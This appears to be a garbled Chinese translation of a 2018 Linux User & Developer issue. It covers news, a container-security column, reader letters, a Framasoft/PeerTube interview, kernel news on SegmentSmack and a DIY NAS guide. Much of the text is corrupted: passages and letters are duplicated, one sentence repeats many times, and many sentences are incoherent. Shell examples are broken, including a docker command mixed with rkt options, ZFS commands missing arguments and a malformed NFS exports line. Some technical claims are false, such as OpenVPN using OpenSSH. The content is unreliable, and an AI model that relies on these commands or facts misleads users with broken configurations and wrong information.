# Linux User & Developer 195 - 开源你的存储 195

## 是时候离开那台跑步机了

面对工作、家庭和生活的重重需求，你的一天时间似乎永远不够用。为什么不要偶尔按下暂停，蜷缩在喜欢的杂志旁，为你的一天开辟片属于“你”的小绿洲呢？


### 按下暂停

享受杂志时光

欲了解更多关于 `Press Pause` 信息，请访问：

`pauseyourday.co.uk`

## 编辑

`Chloe Thornett`

`chloe.thornett@linuxuser.com`

`01719 68144`

## 设计师

`Paul Tysal`

## 制作编辑

`D. Ricketts`

## 总编辑

`Graham Barham`

## 高级编辑

`Jo Guiller`

`Dan Baird`, `Mike Beauf`, `Joy Bernard`, `Chris Brown`,

`Deborah Glyn`, `James Gordon`, `John West`, `Tim Castillo`

`Paul Green`, `Terri Harrison`, `John Masters`,

`Paul Crouch`, `Colin Selman`

`Shashank Sharma`

## 编辑部

新闻编辑部主管：`Tim Masters`

英国制作主管：`Mark Constance`

制作经理：`David Glyn`

广告经理：`Jamie Creasy`

`jaime.creasy@linuxuser.com`

制作经理：`Noel Casey`

`noel.cason@linuxuser.com`

## 管理层

总经理：`Aaron Asad`

运营主管：`David Wood`

艺术设计主管：`Rodney Crook`

社区经理：`Jan Howith`

我们保留编辑或删除此类链接的权利。

欢迎阅读 `Linux` 和开源杂志。在本期中，我们将介绍如何开放源数据并控制它，如果你想清理它的话。我们还将查看 `Purism` 支持的开源操作系统。在教程部分，我们将看到如何使用脚本运行代码并在 `Pi` 集群中运行。当然，这是我们的特辑内容！！

首席执行官：`Elizabeth Zhang`

首席财务官：`Paul Lin`

电话：`+44 20729 5544`

在 `CLI` 上管理你的待办事项

网络附属存储（`NAS`）作为家庭或办公室存储数据的中心化方式非常有用。但与其满足于现成设备，不如完全控制你的安全和隐私，为什么尝试设置基于 `Linux` 的 `NAS` 呢？

### 

在 `PI`、机器学习机器和 `PlayStation` 控制器的帮助下，`Surrey` 创建了一个高科技家居...

第 195 期 | 2018年8月

`facebook.com/LinuxUser`

`Twitter: @linuxusermag`


## 76 使用 `Python` 构建了一台自动新闻机器

定制并构建你的自动“新闻机器”，它可以从你喜爱的网站抓取标题和故事，然后自动将其格式化为演示文稿

`BeeBEEP 5.0.0`、`TEA 45.0.2`、`Cherrytree 0.38.5` 和 `Shotout 18.07.02` 评测

## 下萨克森州税务局放弃 `Linux`

预计将 `13,000` 名用户从 `openSUSE` 迁移到 `Windows 10` 将耗费该州 `1300` 万欧元。

继今年早些时候报道德国慕尼黑市在运营 `15` 年后花费超过 `1000` 万欧元将放弃 `Linux` 后，下萨克森州（首府汉诺威）现在也效仿此，在多年后将其税务部门放弃了 `Linux`。

对于运行过旧版本 `openSUSE` 的 `13,000` 台工作站来说，首选解决方案意乎其然是 `Windows 10`。在线出版物 `Heise` 报道，转型预算为 `590` 万欧元，尽管另外预留了 `700` 万欧元。

正如 `Heise` 指出的，官方说法是正在研究替代方案。为此，下萨克森州州（下辖汉诺威财政部）正在制定框架条件和可能的替代方案。

考虑到员工和信徒拥有的工作站、个人电脑和笔记本电脑之间的兼容性问题，问题似乎与其说是兼容性，倒不如说是已建立的工具及协作系统的可用性。

无论如何，我们将确定短期内将做出哪些变化、长期影响，并确认成本/效益评估。

遗憾的是，这对于当地的开源专家来说是一个巨大的意外。`2017` 年，萨克森州执政党联盟民盟（`CDU`）和社民党（`SPD`）之间的联合协议，以及一项“下萨克森州基于 `Linux` 的流程”已付诸终结。

这一点受到了欧洲自由软件基金会（`FSE`）的关注，

### 这对于当地的开源元素来说并不是巨大的意外


使用我的时通讯鼓励读者在挑战有关开源软件使用的政策时，思考一下开源社区主席 `Noie Kees`。

> “许多机构发现自己自己在无意中被锁定在某种政策中，因为最初的选择确保了替代方案被系统地忽略了”

一旦慕尼黑案例结束，在没有任何感谢 `Linux` 能力或像 `Microsoft Office` 等跨平台替代方案的情况下，什么被“维持”了，

显而易见，下萨克森州的决定是不可逆的，要么是巨大的预算削减，要么是突然意识到它并不实用。这两者都不特别可能，但正如 `FSE` 所指出的，

在萨克森州放弃 `openSUSE` 似乎是因为基础设施问题

在议会中获得特许（这是一个“好迹头”吗？），`FSE` 认为这种对自由软件的明确“观点”，以及我们都可以与政治家进入关于自由软件的讨论，

下萨克森州的规模和预算可能比慕尼黑小，但转型过程将同样困难——而且可能事实如此，最终将由德国纳税人买单。

- `10.` `Solus` `619`


## `Python` 之父 `Guido van Rossum` 辞职

未指名继任者，随着“终身仁慈独裁者”离开

`Python` 开发语言 `30` 年后，`Guido van Rossum` 在围绕签署 `PEP 572` 遇到一些困难后辞职了。

`van Rossum` 在 `Python` 邮件列表上发帖解释道：“现在既然 `PEP 572` 完成了，我不再需要为了一个 `PEP` 而表现得强硬，并发现有这么多人鄙视我的决定。”

`PEP` 过程（`Python` 增强提案）是用于为 `Python` 语言添加功能和标准的过程。虽然其他语言允许通过投票进行演进，但 `Python` 是由 `van Rossum` 亲自签署每一项提案开发的。

在声明中，`Rossum` 还拒绝指名继任者（或者说，拒绝任何未来的领导体系），这让 `Python` 社区陷入了困境，即如何出一个能让他的未来参与变得不再必要的解决方案。“那么我们该怎么办？建立民主制度？无政府状态？联邦制？我们可能为这些事情编写流程（也许那些 `PEP` 读起来像某种宪法）。但问题在于，我试着让你们（当前的社区）去解决。它仍然在这里，但我正试图让你们大家自己想出来。”

这最有趣的是 `van Rossum` 放弃开发控制的态度，就好像 `PEP 572` 给了他一个做某些原本可能想过的事。他还将请求不再担任 `BDFL`（终身仁慈独裁者）。“毕竟一切最终将会发生——那是持久的事物，我正在享受即将到来的和平。”`van Rossum` 决定的即时反应是自然且理性的，有了正确的治理结构，`Python` 将会很好运行。

考虑到其地位，基于 `Arch` 的 `Manjaro` 变化非常小。


### 开源游戏引擎替代品进入测试阶段

《上古卷轴 III：混沌》最早于 `2002` 年发布，因其对玩家要求的深层次要求及其广阔的世界，仍然是一款广受欢迎的 `RPG`。最近，该游戏在 `Windows` 上运行变得越来越困难，且没有发布官方的 `Linux` 或 `Mac` 版本，促成了 `OpenMW` 平台的开发。

`OpenMW v.44` 是始于 `2008` 年的项目的最新阶段，该项目由原首席开发者 `Nicholas Sargent` 发，这是由新首席开发者 `Julian` 领导发布的第一个版本。

作为一个开源、免费的游戏引擎，`OpenMW` 有效地替换了切换的引擎，但仍然需要原始文件。

可以说，你一直被困在由于缺乏它的某些重型数据中心中，至少你知道容器和编排器现在是主菜。


容器的可移植性在容器全球爆发后不久实现了相同的发布。无需担心系统兼容性问题，它是前所未有的。

考虑到容器在更清晰的访问性和卓越功能方面的惊人普及。在很短的一段时间，几年后我们就在这里。曾有一种方法——然而，这仍然是一个问题，而且大家都认为容器是很棒的，但并没有真正花精力去检查它们。这绝非小事。

以下来自`CoreOS`的一个简单（简略）命令行示例：`Docker`镜像不支持签名验证，且容器有自己的安全选项。

```
$ docker run --debug --insecure-options=image --name=coreos.com/r/stage-1.29.0
```


你可以所示，在这种情况下，`Docker`兼容容器是免费的。但除此之外，`CoreOS`解释说：“`Docker`镜像不支持签名验证，且容器有自己的安全选项-`insecure-options=image`。”如果没有别的，这应该鼓励你直接使用镜像。

**书：`Linux`**

**服务器安全：主机与防御**

向容器投放生产工作负载是满载的（双关语），这并不适合心软的人。

要设置网络、挂载等。这里是你感兴趣的地方：`http://bit.ly/lod-kvm`。

使用`KVM`提供的加固，可以在受保护的主机“环境”上运行你的容器。这种加固的二进制文件连接了某种内核，并保护了虚拟机本身——在这种情况下`KVM`（`https://github.com/ikvm/kvm`）。

我在`DevSecOps`工作以及当我查看`Docker`安全模型时——之前在2009年使用`OpenShift`进行生产——了解了`CoreOS`运行时（`https://coreos.com/runtime`）。

从安全角度来看，在主机上运行容器的主要头疼问题是它们对系统的要求：它们会影响主机。这是另一个容器，但它在这个领域通过许多创新生存了下来。例如，`Google Chrome`的标签页沙盒如何防止一个标签页（或容器）在同一个应用程序中破坏。

这还是一个简单的问题。

如果你想帮助防止“容器逃逸”和其他问题，这是`CoreOS`提供的。它建议在虚拟机（`VM`）中运行你的容器，由于更成熟的基于硬件的安全机制，它们无法在相同程度上破坏你的主机。在损坏之前看一眼——如果你感兴趣——这是非常聪明的东西：`http://bit.ly/lod-kvm`。

强大的容器可能在该领域拥有很出色的成绩，但这个故事也适用于其他人，并在我以后有机会时进一步解释。

该领域还有其他进展值得关注。此外，发现一种迷人的方法：观察这个（容器化）空间，事情变化非常快。

### 来信

关于杂志、`Linux`和开源的问题和意见

`@SebastianNicolas`回复了我们关于`Kubuntu`的`KDE`用户指南。在经历了长时间的发行版切换后，我终于找到了它：用于`Kubuntu`的`GNOME`。我非常喜欢它，它强大、高效，且无需扩展或调整即可高度自定义。

我们将尝试保持`FileSilk`的更新，感谢`Richard`提议将其大量的`ISO`镜像上传到`archive.org`，这是非常欢迎的。请关注！

### 获奖来信！

亲爱的`LuBD`，在来信页面，我经常注意到读者抱怨光盘有问题。要么他们的机器没有连接光盘（`Jack LuUB17`，或者在`LuUB18`的情况下，他不仅抱怨了光盘，`Malcolm Beckham`还提到他的光盘损坏了？）不久前还有一些关于`FileSilk`的投诉，今天检查发现，例如，它仍然活跃。`Chris`在第188期中宣布（在第183期中重申）“从`LuUB17`开始的所有`ISO`都将托管在`FileSilk`上”，但该倡议在两次上传后似乎就销声匿迹了。

由于43多个`ISO`镜像占满了我的硬盘，我想从`Chris`留下的地方开始，建立自己的光盘存档。`Jack`和`Malcolm`抱怨的那些光盘。我也包含了光盘和艺术设计，以及我的存档对光盘的描述。“`Linux`开发者封面”。这是我无法继续做的事情！我不想浪费你的时间或重复任何努力。另一方面，我很乐意帮助并补充你的上传（但我们可能应该对带有元数据和集合的不同贡献者进行合理的对话）。


我们已经花了一些精力挖掘并翻阅了所有旧版本以纠正`FileSilk`的遗漏。顺带一句，我只想说一下，在没有索引或在线可用的情况下，回去翻阅光盘需要一些精力，以便我找到页面以及提到“`codISO`”或“`FileSilk`”的地方？或者看看你是否看到人们提到杂志。

### Richard

`Chris`: `Richard`，是的，非常抱歉。关于那个，我计划上传我们卡在“脱轨”上的`ISO` —— 磁头位于内部（杂志版）。上传这些`ISO`将太棒了！遗憾的是，在我提问时没有在线搜索或索引，但我们可以做一个。

在这种情况下，这种`Docker`兼容的容器是免费的。但除此之外，`CoreOS`解释说：“`Docker`镜像不支持签名验证，且容器有自己的安全选项-`insecure-options=image`。”如果没有别的，这应该鼓励你直接使用镜像。

`Chris Binnie`

为了清晰起见，提到的阶段被描述为一种可靠的二进制文件，它可以促进环境，在这种情况下我们正在使用`KVM`。

要设置网络、挂载等。这里是你感兴趣的地方：`http://bit.ly/lod-kvm`。

使用`KVM`提供的加固，可以在受保护的主机“环境”上运行你的容器。这种加固的二进制文件连接了某种内核，并保护了虚拟机本身。

感谢`Richard`提议将其大量的`ISO`镜像上传到`archive.org`，这是非常欢迎的。请关注！

### 获奖来信！

### 棘手的光盘

亲爱的`LuBD`，在来信页面，我经常注意到读者抱怨光盘有问题。要么他们的机器没有连接光盘（`Jack LuUB17`，或者在`LuUB18`的情况下，他不仅抱怨了光盘，`Malcolm Beckham`还提到他的光盘损坏了？）不久前还有一些关于`FileSilk`的投诉，今天检查发现，例如，它仍然活跃。`Chris`在第188期中宣布（在第183期中重申）“从`LuUB17`开始的所有`ISO`都将托管在`FileSilk`上”，但该倡议在两次上传后似乎就销声匿迹了。

由于43多个`ISO`镜像占满了我的硬盘，我想从`Chris`留下的地方开始，建立自己的光盘存档。`Jack`和`Malcolm`抱怨的那些光盘。我也包含了光盘和艺术设计，以及我的存档对光盘的描述。“`Linux`开发者封面”。这是我无法继续做的事情！我不想浪费你的时间或重复任何努力。另一方面，我很乐意帮助并补充你的上传（但我们可能应该对带有元数据和集合的不同贡献者进行合理的对话）。


### 亲爱的 Santa Tux

### 本月得者：Richard Milne！

亲爱的`U`：我的愿望，我想看到更多`Linux`初学者。你们能考虑在每期增加一个“命令”部分，解释几个实用的命令吗？此外，我想看到更多关于编程语言的文章。你们涵盖的一些语言相当冷门。另外，谁在用那个？我想看到更多`Python`文章。最后，然后我就不再唠叨了，


## 访谈 Framasoft

## 视频自由万 (Vive le vidéo libre)

`PeerTube`旨在掌控视频共享。我们采访了`Framasoft`，这是这一成功众筹活动背后的集体。

互联网最初是去中心化的，通过少数大型利益公司运营。受控制的服务、被使用的数据——特别是在最近的选举中——对许多用户来说都是严肃的概念。

去中心化正在兴起。联邦化服务一直是开源领域的一个热门概念。首个例子可能追溯到2008年的开源微博客平台——但近年来，随着公众意识的增强，我们看到了像`Twitter`、`Mastodon`这样知名度和使用率更高的平台的出现。

`Framasoft`

一家小型非营利组织，通过实际项目推广自由软件及其文化。

另一个成功是`PeerTube`。它的众筹目标是26,800欧元，这是一个由拥有数十成员的非营利组织`Framasoft`构建的去中心化视频共享平台。与`Mastodon`一样，用户可以建立自己的`PeerTube`实例并允许人们上传和共享实例。`PeerTube`通过`ActivityPub`协议（参见“什么是`ActivityPub`？”）去中心化，这种工具的使用是一个有趣的发展，它超越了微博客，并结合了`WebTorrent`——一种基于`BitTorrent`的浏览器点对点文件传输实现——来分担视频流负载。


Framasoft 是一个集体，主要通过个人捐助获得资金，并将自定义为“一群想要改变世界的朋友，一次改变一个字节”。自 2004 年以来，Framasoft 一直在制作自由软件和运营博客，以及大量实用且有用的项目。这包括创建一个自由软件目录（`https://frameto.org`），以及像 Framakey（`https://framakey.org`）这样的项目，这些项目预装了可以在 Windows、Mac、Linux 和博客上使用的自由软件，它它有自己的出版社。

凭借着 Framasoft 的集体精神，我们对 PeerTube 进行了采访。这是一个免费的协作编辑平台（`https://peertube.org/en/`），拥有许多贡献成员，包括实例所有者。他们的回答为了流畅和清晰经过了微调。

PeerTube（`https://peertube.org`）是一个免费的视频平台。它是免费且轻量的软件。在服务器上运行自己的 PeerTube 实例并随时开始播放视频，或者你可以加入现有的实例。我们不想控制平台；我们正在为人们创建一个属于他们自己的工具！

使用 PeerTube 让你能够以低成本按照自己的规则拥有你自己的视频。PeerTube 实例允许你选择想要关注的实例，因此你可以指向来自实例内部的视频。这种联邦机制允许每个 PeerTube 实例共享和编辑视频。当用户使用你的视频之一时，视频将直接从 PeerTube 实例流传输到他们的浏览器。

当用户同时观看同一段视频时，视频通过网络浏览器使用 WebTorrent 这样的网络技术在他们之间进行无缝共享。这意味着，如果你的某段视频火了，大量用户观看它不会增加你服务器的负担，因为每个使用它进行下载的人都在进行点对点共享。

``

FamaTube 之上是 Framasoft 的 PeerTube 实例，根据该集体的说法，还有一个多个实例。PeerTube 托管了超过 12,000 个视频。

PeerTube 平台的一个关键方面是用户能够托管自己的视频托管服务器（或者至少被称为“实例”），然后将他们的实例与他们在联邦网络中发现的其他实例进行同步。

PeerTube 实例使用 REST API（框架）、WebTorrent Tracker（追踪器），以及通过 HTTP 协议进行视频种子（seeding）。当用户上传视频时，REST API 会创建一个种子文件并将其添加到数据库。当用户上传视频时，追踪器会指示所有正在观看该视频的人，以及网页端的 HTTP URL，这使得 BitTorrent 能够从任何 HTTP 服务器下载视频。

``

第一个目标是界面的本地化并支持多种语言。这将使我们能够在视频中包含字幕，并方便不同观众群的无障碍访问。

我们还将为用户开发馈送（feeds），允许他们通过 RSS 协议从外部源导入视频。你可以订阅 PeerTube（YouTube, Vimeo, Dailymotion）以及其他实例的种子文件。这意味着我们可以搜索并添加高级搜索功能，并提高软件稳定性（解决 Bug 和可扩展性）。

第二个目标的下一个功能将允许视频冗余（redundancy），在实例之间共享，或者当原始实例被删除时，供联邦中的所有用户和频道使用——这样用户无论其联邦设置如何，都可以订阅他们想要的任何内容。

我们（起初）使用私有协议，认为 PeerTube 不符合我们的需求。但几个月后，我们看到 Gargon（Eugen Rogchenko，Mastodon（`https://joinmastodon.org/`）的开发者）使用 ActivityPub 作为一个个人项目启动了一个视频平台。在交换了一些邮件后，他给了我们如何使用 ActivityPub 的提示。我们初此并不习惯，但我们开始使用它，因为我们想创建一个对所有人免费的平台。

去中心化的社交网络协议 ActivityPub 之所以具有吸引力，因为它允许客户端与服务器端 API 进行通信。这种客户端-服务器协议是用户（或其他自动化进程）使用许多不同设备（如桌面电脑、手机或 Web 应用程序）进行创建、更新和删除内容的方式。

第二个接口是服务器到服务器协议。它使用 API 让开发者能够非常方便地工作，使得去中心化的网站能够相互共享信息。

ActivityPub 使用了类似于电子邮件的收件箱和发送箱系统，每个用户通过其账户以“执行者”（actors）的形式表示（见图）。每个执行者都有一个接收和发送消息的收件箱。不同服务器的用户之间相互通信。在执行者中，你可以使用 `HTTP POST` 和 `HTTP GET` 向收件箱和发送箱发送消息。`POST` 发送正在产生的消息并发布到你的服务器。从你的收件箱进行 `GET` 以及从某人的发送箱进行 `GET`，你就能看到他们发布的内容。

``

将服务带给人们，我们希望他们与我们一起构建。现在，我们正在创造另一个基于连接的社会，但它是基于自由软件。这里的想法是能够管理权衡——例如当特定软件是免费的还是专有的——并帮助建立一个简单的共识。

这就是为什么我们支持 Yunhost（`yunhost.org`），这是一个自由软件项目，它教你如何在网上生活，并提供通往奇妙自托管世界的门户。它允许你为你的朋友、家人和社区拥有自己的服务器（以及家中的数据）。

大多数服务都已针对 Yunhost 进行了封装，因此你无需费或系统管理知识即可安装。我们非常高兴 Framasoft 这样的实体加入我们，讨论他们的计划和经验。我们知道其他非营利组织并没有在进行创建去中心化数字生活所需的公共教育和基础设施工作。

我们邀请了 CHATONS（`https://chatons.org/`）—— 这是一个为 KITTENS 提供的免费网络，名字也很有趣。这是一个独立、透明、开放、中立且符合伦理的主机联盟，提供基于 FLOSS（自由及开源软件）的在线服务。我们希望通过集体结构，避免个人数据在像 GAFAM（谷歌、苹果、脸、亚马逊和微软）这样的数字孤岛中发生碰撞和去中心化。

CHATONS 成员倾向于在这一伦理和统一的范围内遵循基于 FLOSS 的在线服务。我们想做善良的小猫咪 —— 我们不想做猫窝的老板！

最后，你们其中有人希望我们能发布 Framasoft Office。通过 Google 源代码，目标是为开源项目提供资金，使开发者能够处理有益的优质代码，同时选拔有才的编码人员，将其形成一个社区俱乐部，同时超越 Go 语言；在数字时代，自由的世界变得越来越依赖于金融巨头。

通过提议 Framasoft 联盟，我们想要抵抗这种趋势。项目的核心是连接在技术和计算机科学领域共享信息的人们，我们在这些领域中寻求经验，并将其引入一个提供许多益处的环境。

Framasoft 将实施并提供资金支持。接下来发生什么取决于你——注册并做任何事情：除了作家，加入我们吧！

如果人们想提供帮助，请通过众筹活动向我们捐赠。显然，我们需要更多钱，但这不是最重要的——

我们需要各方面的帮助，包括开发者、设计师、视频制作人、博客作者、翻译人员（`https://framasoft.org/idew-2235`）来在此领域提供帮助——欢迎所有人才。这就是“贡献”的精神。

> 我们想让使用通常被认为对“普通人”来说太困难的工具变得更简单

我们想让使用通常被认为对“普通人”来说太困难的工具变得更简单

由于内存让使用通常被认为对“普通人”来说太困难

`` 

CHATONS 成员倾向于在这一伦理和统一的范围内遵循基于 FLOSS 的在线服务。我们想做善良的小猫咪 —— 我们不想做猫窝的老板！

最后，你们其中有人希望我们能发布 Framasoft Office。通过 Google 源代码，目标是为开源项目提供资金，使开发者能够处理有益的优质代码，同时选拔有才的编码人员，将其形成一个社区俱乐部，同时超越 Go 语言；在数字时代，自由的世界变得越来越依赖于金融巨头。

通过提议 Framasoft 联盟，我们想要抵抗这种趋势。项目的核心是连接在技术和计算机科学领域共享信息的人们，我们在这些领域中寻求经验，并将其引入一个提供许多益处的环境。

Framasoft 将实施并提供资金支持。接下来发生什么取决于你——注册并做任何事情：除了作家，加入我们吧！

如果人们想提供帮助，请通过众筹活动向我们捐赠。显然，我们需要更多钱，但这不是最重要的——

我们需要各方面的帮助，包括开发者、设计师、视频制作人、博客作者、翻译人员（`https://framasoft.org/idew-2235`）来在此领域提供帮助——欢迎所有人才。这就是“贡献”的精神。

> 我们想让使用通常被认为对“普通人”来说太困难的工具变得更简单

由于内存让使用通常被认为对“普通人”来说太困难

由于内存让使用通常被认为对“普通人”来说太困难

由于内存让使用通常被认为对“普通人”来说太困难

由于内存让使用通常被认为对“普通人”来说太困难

由于内存让使用通常被认为对“普通人”来说太困难

由于内存让使用通常被认为对“普通人”来说太困难


由于内存让使用通常被认为对“普通人”来说太困难。

供操作系统进行调查。特殊的硬件特性意味着影子栈（`shadow stack`）在解锁发生之前无法被重写。最新的内核补丁（由 `Yu-chen Yu` 发布）包含更多此类功能，包括对用户态和内核影子栈的支持，以及间接分支跟踪（用于防止 `JOP` 攻击）。构建完全启用 `CET` 的内核需要 `v2.33` 版本二进制文件和 `GCC 8.1`。预计在即将推出的 `glibc 2.28` 中提供用户空间支持。硬件的部署和支持还需要一段时间。

本月又出现了一个影响 `Linux` 内核的安全漏洞，它同样属于非推测性的传统类型，被称为 `SegmentSmack`。最近的 `Linux` 内核（`4.9` 及更高版本）对核心网络进行了更改，使其容易受到“资源耗尽”的影响。

在这种情况下，可以使用虚拟机创建特制的 `TCP` 连接。如果连接没有大缓冲区或代理，它可能容易受到数据外泄（`tentfiltration`）的影响，但也可能导致系统调用 `_tcp_prune_of_users_` 时产生极其昂贵的计算开销。因此，通过相对低频率的特殊修改攻击，攻击者可以在不需要管理员权限的情况下导致系统变得无响应（参见原始 `CVE-2018-5390`）。许多企业不得不发布带有漏洞代码的内核，这本身也减轻了其影响。

在其他通用进展方面，`Martijn Coenen` 发布了一个名为“符号名称”（`Symbol names`）的补丁系列，旨在清理加载模块使用的 `Linux` 导出符号（内核函数）。当你在 `Linux` 系统上使用内置第三方驱动程序时，内核模块需要通过约 `30,000` 个符号解析，而这些符号传统上拥有扁平且简单的命名空间。

最新的补丁通过在符号名中包含额外的上下文（如子系统前缀）改变了这一点。这将允许开发者细粒度控制第三方使用哪些内核符号，例如防止误用并非设计供外部使用的接口。

`Ted T'so` 发布了一个名为“`random`”的补丁，通过添加选项通过“`HW`”（硬件随机数生成器）配置 `CPU` 的 `hwrng`。在笔记本和台式机等 `x86` 类机器上，使用了指令 `(RSEED)`。然后使用 `READSEED()` 获取内核的随机源；事实证明，如果系统本身存在由于地缘政治格局变化导致的“随机性”熵，内核系统调用将失败（静态）。（注：此处原文逻辑存在 `OCR` 乱码）

`Ted` 提到，美国最近对中国科技公司 `ZTE` 执行了“死刑”，该公司利用在中国内的业务进行本土化生产或与美国制造商合资。他不想更新，也不想决定信任哪些供应商。这无疑会影响某些迷失的选择。


市售的网络附属存储设备（`NAS`）可能很贵。`Neil Bothwick` 解释了如何制作和维护自己的 `NAS`，以获得终极控制和安全性。

家里有多台计算设备是很现象，在这些情况下，这些设备拥有存储在不同设备上的文件集合。你想要的文件总不在你正在使用的设备上。在家庭环境中，这很常见；在商业环境中，随地访问文件至关重要。

`NAS` 的要求相当简单。它不需要强大的动力，因为它只提供文件服务，存储和内存是关键。你需要一个尽可能带有 `SATA` 接口和驱动器的设备；目标是以后增加存储空间。你还应该考虑 `NAS` 存储，这意味着为文件提供更多磁盘空间（我们稍后会介绍），因为这在内存方面需要几 `MB` 的空间才能运行得更高效。

`NAS` 通常 `24/7` 运行，因此功耗通常是一个考虑因素。一个比带有华丽图形的桌面系统重要的系统是理想的。其他功率消耗是噪音水平，这对 `NAS` 来说很重要，因为大家非常在意。

> `NAS` 通常 `24/7` 运行，因此功耗通常是一个考虑因素

解决方案是单一存储位置：网络附属存储（`NAS`）。文件存储意味着从任何地方都可以访问一切。在设置 `NAS` 时，你有三个选择：购买预制 `NAS`、自己构建，或在现有硬件上添加 `NAS` 功能（这比网络连接快得多，尤其是对于 `USB` 驱动器）。谈到网络，你显然需要最快的连接。如果你的 `NAS` 有两个以太网口，可以将它们绑定在一起，以增加一个客户端从另一个客户端下载时的带宽。


### 将操作系统与数据分离是良好的做法，因此请为操作系统使用独立的磁盘

`LVM` 允许你将多个磁盘管理成一个单一设备，在其之上可以运行如 `ext4` 等标准文件系统。

例如，假设你有两个等大小的磁盘 `/dev/sdb` 和 `/dev/sdc`，可以这样在 `ZFS` 中创建一个 `RAID1` 存储池：

```bash
$ zpool create mypool/myrefs /dev/sdb /dev/sdc
```

如果可能，请使用 `/dev/disk-by-id` 中的名称而不是绝对节点；这可以避免在您使用的任何文件系统中添加或删除磁盘时可能出现的问题。然后您可以使用以下 `ZFS` 命令在池中创建文件系统或 `ZFS` 数据集：

```bash
$ zfs create -o mountpoint=/storage/videos/mypool/myrefs
$ zfs set mountpoint=/storage/videos/mypool/myrefs
```

`ZFS` 在启动时自动将文件系统挂载到 `/pool/dataset`。您可以通过创建时或之后使用以下命令设置挂载属性来更改：

如果您想控制它，将需要将 `mountpoint` 设置为 `/etc/fstab` 并将其添加到 `fstab`，文件名为 `/pool/dataset`，文件类型为 `zfs`。


以下是几种坚固、可靠且经济的系统，它们可以作为 `NAS` 的良好基础。


这个紧凑的盒子有四个硬盘位和一个 `DVD` 接口，你可以用它连接一个 `SSD` 作为操作系统盘。在大多数时候它们价格合理，但可以等待频繁的返现优惠以获得真正的划算。


- `Dell T330`
- `www.dell.com`

典型的市售 `NAS`。这些设备易于设置，但您将失去使用通用设备作为基础的可靠性。适用于“即插即用且无需管心”的场景。

> 值得从不同的制造商处采购硬盘。如果两块硬盘都来自同一个坏批次（这确实会发生），双盘 `RAID` 并没有安全性可言。

> 关于这个主题存在很多困惑。问题在于 `Oracle` 为 `ZFS` 提供了服务，但它们使用了 `CDDL` 许可。`ZFS` 与 `Linux` 内核不兼容。令人遗憾的是，在不产生任何后果的情况下分发内核是非法的。`ZFS` 看起来是兼容的，但没有人曾在庭上冒过这种风险。此外，你可以安装设置文件系统的功能。

现在是时候查看共享文件的各种选项了，包括通用和特定类型的媒体。在 `NAS` 上提供文件和存储主要有两种方法。通过 `NAS`，你可以使用托管在客户端上的网络文件系统，可以使用特殊的服务器处理特定类型的文件。

第一种方法涵盖两种主要方式：`Samba` 和 `NFS`。`Samba` 是来自 `Unix` 世界的网络系统，它速度快且完全支持文件权限和元数据，但限于 `Linux` 客户端。因此，当你想让用户访问自己的空间时，`NFS` 是网络服务器的好选择。

第二种方法使用易于配置的 `NFS` 网络系统。`CIFS` 是 `Windows` 的默认网络系统也适用于 `Android` 和 `iOS`。这些文件系统都使用服务器上的文本文件进行配置。对于 `NFS`，这在 `/etc/exports` 文件中，条目如下：

```
/etc/exports 192.168.1.0/24 /path (no_root_squash,subtree_check,sync)
```



如果你导出了该路径，它表示允许访问的范围，括号内包含挂载选项列表。默认不允许 `root` 用户从客户端连接以获得访问权限。如果你想要类似云的界面，`Nextcloud` 绝不会出错：`no_root_squash` 选项改变了这一点。对于 `NFS`，你的系统必须使用 `fsid` 设置一个唯一的 `UID`。其他选项在 `exports` 页面中。客户端只需将 `server.address:path` 挂载到它们选择的点即可。



大多数发行版在仓库中都有 `Gerbera`，可以从包管理器中安装。注意，最新的 `1.2` 版本非常新，因此你可能需要从源码安装以获取某些功能。参见 `http://docs.gerbera.io/latest/compile.html`。

使用以下命令创建默认配置并启动服务器：

```bash
$ mkdir -p /etc/gerbera
$ gerbera --config /etc/gerbera/config.xml
```


在浏览器中打开 `http://(YOURNAS)` 查看 `Gerbera` 的界面，你可以通过选择要共享的目录来添加内容。你可以直接添加目录，也可以添加一个自动化目录，这样就会自动添加新内容。

`Samba` 的配置在服务器上是复杂的。……（注：原文后续部分为乱码/重复，已按要求截断）

## 功能

## 开源存储

## 外部访问

如何确保你和你的朋友可以通过互联网访问你的文件，同时将其他人排除在之外。

从安全的角度来看，如果你只想在私有网络上访问你的 `NAS`，那么 `Linux` 权限对于大多数情况都是足够的，对于更高级的需求，可以使用 `ACL`（访问控制列表）。然而，如果你想允许从外部访问，请查看相关详细信息。这些方法将要求你在路由器上开启端口，并且仅执行其功能。你还应该考虑设置防火墙以进一步保护你的系统。

这里有许多种 `VPN` 协议可用，但本文也是开源的，因此我们使用 `OpenVPN`。它使用 `OpenSSH` 建立连接，这是一种可靠且安全的技术。设置 `VPN` 服务器和客户端可能有点复杂，但对于树莓派的一项任务来说，它们非常方便，请稍多包涵。

如果你不擅长网络设置，但需要文件系统级的访问，你可能倾向于使用 `NFS` 或 `Samba` 共享。例如，如果你想运行 `VPN` 服务器并将其全部开放，你将需要另一个路由器和另一个连接。

